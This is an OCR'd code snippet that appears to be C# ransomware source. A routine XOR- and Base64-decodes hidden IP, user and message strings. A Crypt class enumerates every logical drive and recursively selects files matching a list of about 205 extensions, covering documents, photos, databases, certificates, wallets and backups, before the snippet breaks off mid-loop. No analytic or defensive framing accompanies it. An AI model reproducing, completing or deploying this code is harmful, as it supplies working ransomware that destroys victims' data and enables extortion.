 ```csharp

	public static void Decrypt(string key)
	{
		Key = Utils.DecodeBase64(Key) + Utils.DecodeBase64(key);
		IP = Utils.DecodeBase64(Utils.Xor(Utils.DecodeBase64(IP), Key));
		User = Utils.DecodeBase64(Utils.Xor(Utils.DecodeBase64(User), Key));
		Message = Utils.DecodeBase64(Utils.Xor(Utils.DecodeBase64(Message), Key));
	}
}
internal class Crypt
{
	public static void Process(string password)
	{
		password = Utils.CalculateKey();
		string[] logicalDrives = Directory.GetLogicalDrives();
		for (int i = 0; i < logicalDrives.Length; i++)
		{
			EncryptDirectory(logicalDrives[i], password);
		}
	}

	public static void EncryptDirectory(string location, string password)
	{
		try
		{
			string[] source = new string[205]
			{
				".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", "jpeg", ".png",
				".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd",
				".sql", ".mp4", ".7z", ".rar", ".m4a", ".wma", ".avi", ".wmv", ".csv", ".d3dbsp",
				".zip", ".sie", ".sum", ".ibank", ".t13", ".t12", ".qdf", ".gdb", ".tax", ".pkpass",
				".bc6", ".bc7", ".bkp", ".qic", ".bkf", ".sidn", ".sidd", ".mddata", ".itl", ".itdb",
				".icxs", ".hvpl", ".hplg", ".hkdb", ".mdbackup", ".syncdb", ".gho", ".cas", ".svg", ".map",
				".wmo", ".itm", ".sb", ".fos", ".mov", ".vdf", ".ztmp", ".sis", ".sid", ".ncf",
				".menu", ".layout", ".dmp", ".blob", ".esm", ".vcf", ".vtf", ".dazip", ".fpk", ".mlx",
				".kf", ".iwd", ".vpk", ".tor", ".psk", ".rim", ".w3x", ".fsh", ".ntl", ".arch00",
				".lvl", ".snx", ".cfr", ".ff", ".vpp_pc", ".lrf", ".m2", ".mcmeta", ".vfs0", ".mpqge",
				".kdb", ".db0", ".dba", ".rofl", ".hkx", ".bar", ".upk", ".das", ".iwi", ".litemod",
				".asset", ".forge", ".ltx", ".bsa", ".apk", ".re4", ".sav", ".lbf", ".slm", ".bik",
				".epk", ".rgss3a", ".pak", ".big", "wallet", ".wotreplay", ".xxx", ".desc", ".py", ".m3u",
				".flv", ".js", ".css", ".rb", ".p7c", ".pk7", ".p7b", ".p12", ".pfx", ".pem",
				".crt", ".cer", ".der", ".x3f", ".srw", ".pef", ".ptx", ".r3d", ".rw2", ".rwl",
				".raw", ".raf", ".orf", ".nrw", ".mrwref", ".mef", ".erf", ".kdc", ".dcr", ".cr2",
				".crw", ".bay", ".sr2", ".srf", ".arw", ".3fr", ".dng", ".jpe", ".jpg", ".cdr",
				".indd", ".ai", ".eps", ".pdf", ".pdd", ".dbf", ".mdf", ".wb2", ".rtf", ".wpd",
				".dxg", ".xf", ".dwg", ".pst", ".accdb", ".mdb", ".pptm", ".pptx", ".ppt", ".xlk",
				".xlsb", ".xlsm", ".xlsx", ".xls", ".wps", ".docm", ".docx", ".doc", ".odb", ".odc",
				".odm", ".odp", ".ods", ".odt", ".ico"
			};
			string[] files = Directory.GetFiles(location);
			string[] directories = Directory.GetDirectories(location);
			for (int i = 0; i < files.Length; i++)
			{
				string extension = Path.GetExtension(files[i]);
				if (source.Contains(extension))
```